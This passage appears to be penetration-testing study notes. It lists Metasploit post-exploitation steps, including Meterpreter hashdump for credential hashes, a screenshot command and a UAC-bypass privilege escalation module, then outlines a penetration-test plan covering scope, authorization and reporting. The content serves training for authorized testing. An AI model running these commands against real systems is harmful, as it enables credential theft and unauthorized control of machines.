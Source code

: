 7. **Using Meterpreter for Post-Exploitation**:
    
    ```
    sysinfo
    getuid
    hashdump
    ```
    
8. **Running a Post-Exploitation Script**:
    
    ```arduino
    run post/windows/gather/checkvm
    ```
    
9. **Taking a Screenshot of the Compromised System**:
    
    ```
    meterpreter > screenshot
    ```
    
10. **Escalating Privileges** (if Meterpreter is used):
    
    ```bash
    use exploit/windows/local/bypassuac
    set SESSION 1
    exploit
    ```
    

### How would you write a penetration testing test plan?

Writing a penetration testing test plan involves outlining the objectives, scope, methodologies, and processes for the testing engagement. Here's a high-level overview of the structure and content:

1. **Introduction**
    - Purpose of the test
    - Test objectives and expected outcomes
2. **Scope**
    - In-scope targets (IP ranges, domains, applications)
    - Out-of-scope elements
    - Test boundaries and limitations
3. **Test Methodology**
    - Types of testing (black box, white box, gray box)
    - Phases of testing (reconnaissance, scanning, exploitation, post-exploitation, reporting)
    - Tools and techniques to be used
4. **Timeline**
    - Test start and end dates
    - Milestones for each phase
5. **Roles and Responsibilities**
    - Team structure
    - Communication protocols
    - Point of contacts for both testing team and client
6. **Legal and Compliance**
    - Authorization
    - Compliance requirements
    - Confidentiality agreements
7. **Risk Management**
    - Risk assessment
    - Contingency and incident response plans
8. **Reporting**
    - Reporting formats
    - Types of reports (interim, final)
    - Follow-up procedures
9. **Approval and Sign-off**
    - Client and tester acknowledgments
    - Signatures and dates
